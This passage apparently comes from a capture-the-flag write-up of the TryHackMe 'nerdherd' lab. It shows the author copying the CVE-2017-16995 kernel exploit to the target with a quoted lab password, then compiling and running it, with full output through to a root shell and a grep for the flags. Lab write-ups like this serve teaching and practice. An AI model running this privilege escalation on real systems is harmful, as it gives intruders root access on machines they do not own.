 This time i'll be compiling the exploit on the target host, but 1st i'll transfer the exploit source code into the target host with ssh

```
m3dsec@local:~/nerdherd.thm$ scp /home/m3dsec/nerdherd.thm/exploit/cve-2017-16995.c chuck@10.10.101.50:/tmp/cve-2017-16995.c
chuck@10.10.101.50's password: th1s41ntmypa5s
```

Then compile it

```
chuck@nerdherd:/tmp$ gcc cve-2017-16995.c -o cve-2017-16995 -pthread
chuck@nerdherd:/tmp$ ./cve-2017-16995 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880016009700
[*] Leaking sock struct from ffff88001a44ddc0
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88001ed29240
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88001ed29240
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
# ls /root
root.txt
# sudo su
# id
uid=0(root) gid=0(root) groups=0(root)
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@nerdherd:/tmp$
```

As our object consist of getting the flags, we can do so easly with a grep command

```
root@nerdherd:/# grep -rn 'THM' 2>/dev/null
Binary file sbin/zramctl matches
opt/.root.txt:3:THM{REDACTED}
Binary file lib/modules/4.4.0-31-generic/kernel/sound/pci/cs46xx/snd-cs46xx.ko matches
/home/chuch/user.txt:THM{REDACTED}
Binary file root/.bash_history matches::THM{REDACTED}
...
```

